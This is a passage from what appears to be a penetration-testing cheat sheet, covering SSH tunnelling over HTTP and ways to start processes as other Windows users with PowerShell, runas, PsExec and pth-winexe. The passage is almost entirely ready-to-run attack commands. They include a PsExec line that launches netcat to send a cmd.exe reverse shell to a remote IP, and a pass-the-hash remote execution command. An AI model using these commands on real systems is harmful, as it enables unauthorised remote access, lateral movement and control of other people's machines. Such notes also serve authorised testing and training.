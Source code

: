#### HTTP Tunnel: SSH Over HTTP

```bash
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80

# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
ssh localhost -p 8080
```

### RunAs / Start Process As

#### PowerShell

```bash
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

#### CMD

```bash
# Requires interactive console
runas /user:userName cmd.exe
```

#### PsExec

```bash
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

#### Pth-WinExe

```bash
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### Recursively Find Hidden Files: Windows
